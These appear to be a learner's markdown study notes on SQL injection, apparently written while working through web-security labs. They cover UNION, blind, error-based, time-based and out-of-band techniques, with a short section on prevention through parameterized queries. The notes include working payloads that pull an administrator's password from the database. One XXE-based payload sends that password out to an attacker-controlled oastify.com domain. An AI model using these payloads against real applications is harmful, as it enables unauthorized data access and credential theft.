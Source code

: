 
# SQL Injection (SQLI) Notes

## What is SQL Injection (SQLI)?
- A web security vulnerability that alters the main query sent from an application to the database.
- Allows attackers to access unauthorized data.
- Often occurs in the WHERE clause of SELECT queries.
- Can escalate to compromise the server, such as gaining administrator access.

## Basic SQLI
- Utilizes single quotes (`'`) to probe for anomalous responses.
- Boolean conditions employed: `OR 1=1`, `OR 1=2` (FALSE), `OR 'a' is not equal to 'b'` (making it TRUE).

## SQLI UNION Attacks
- Exploits applications vulnerable to SQLI to retrieve data from different tables using `UNION`.
- `UNION` combines the results of two or more SELECT queries.
- Requirements:
  - Both queries must return the same number of columns.
  - Data types must be compatible.
- Techniques for determining the number of columns:
  - Increment the `ORDER BY` clause until an error occurs (e.g., `ORDER BY 1--`, `ORDER BY 2--`).
  - Use `UNION SELECT` with varying numbers of NULLs.

## Oracle SQLI
- The `SELECT` query must include the `FROM` keyword.
- Utilizes the built-in table "dual" (e.g., `' UNION SELECT NULL FROM DUAL--`).
- Combines column values with a delimiter for queries returning single column values (e.g., `' UNION SELECT username || '~' || password FROM users--`).

## MySQL SQLI
- Comments require a space after `--`.
- The `#` character can also denote a comment.
- Identifying columns with useful data types:
  - Use `UNION SELECT` payloads to test for string-type columns.

## Blind SQLI
- Cookie TrackingID header in application uses SQL query to trace user data analytics.
- Example query of Cookie TrackingID:
  - `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
- It can be exploited through blind SQLI vulnerability.
  - eg of exploit: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
  - It forces a true condition and return password where first character is greater than m.
- Possible attacks:use Boolean to determine the true false of the criteria, eg: if the password length is more than x, starts with what alphabet.
- Then brute force base on response to get credentials.

## Error-Based SQLI
- Utilizes errors to extract or infer sensitive data.
- Effectiveness varies with Boolean conditions.
- Examples:
  - `' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
  - `'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
- Can extract data through verbose SQL errors.
- Uses the `CAST()` function to convert data types and bypass conditional response prevention.
- Working examples that return data through error messages:
  - `' AND 1=CAST((SELECT username FROM users LIMIT 1)AS INT)—`
  - `' AND 1=CAST((SELECT password FROM users LIMIT 1)AS INT)—`

## Time-based SQLI
- Tests server response time to infer SQLI presence, especially useful if the database handles query errors robustly.
- Database-specific queries.
- Examples:
  - `'; IF (1=2) WAITFOR DELAY '0:0:10'—` (no time delay, true condition)
  - `'; IF (1=1) WAITFOR DELAY '0:0:10'--` (time delay, false condition)
- Working example:
  - `';SELECT+CASE+WHEN+(username='administrator' AND SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END FROM users—`

## OAST SQLI (Out-of-band Application Security Testing)
- A form of Blind SQLI that makes the server interact with a system under the attacker's control, often via DNS.
- Uses tools like Burp Collaborator for network interaction detection.
- Examples:
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'—` (DNS lookup on a specific domain)
  - Using UNION and XXE for DNS lookups on collaborator subdomains.
  - SQLI in OAST to leak data, with the leaked data being part of the subdomain name.
  - eg: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual—`
  - Output: p4ssw0rd.upneavivflfs9z2xmz65vswzbqhi59ty.oastify.com

## Bypassing SQLI Filters
- Using the hackvector extension in Burp Suite to encode payloads for XML WAP bypass.
- Example: `<@dec_entities>1 UNION SELECT username || '~' || password FROM users;<@/dec_entities>`

## Checking Database Version
- MySQL: `SELECT @@version`
- Oracle: `SELECT * FROM v$version`
- PostgreSQL: `SELECT version()`

## SQLI Prevention:
- Illustrates how code is vulnerable to SQLI and how to prevent it by parameterizing the query.
- Highlights the importance of not allowing user input to interfere with the SQL query structure.
- Emphasizes best practices like input whitelisting, logical separation, and constant hard-coding.
- The following code is vulnerable to SQLI due to direct execution of user input by having it directly concatenated into the query
  - `String query = "SELECT * FROM products WHERE category = '"+ input + "'";`
  - `Statement statement = connection.createStatement();`
  - `ResultSet resultSet = statement.executeQuery(query);`


